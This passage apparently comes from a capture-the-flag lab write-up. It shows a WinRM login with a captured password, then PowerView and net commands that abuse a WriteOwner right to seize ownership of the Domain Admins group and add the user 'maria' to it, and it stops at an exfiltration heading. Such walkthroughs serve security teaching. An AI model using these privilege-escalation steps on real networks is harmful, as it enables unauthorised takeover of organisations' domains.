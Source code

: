 ```bash
evil-winrm -i 10.129.176.11 -u maria -p W3llcr4ft3d_4cls
```

Now that we have full access to maria user we can add ourselfs to Domain Admins group due to her WriteOwner on Domain Admins:

```PS
Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'maria'
Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights All
net group "Domain Admins" maria /add /domain
```

![evil_result](images/Object14.png)

### Phase 5: Exfiltration

Now we need to reenter this session so we can read root flag:

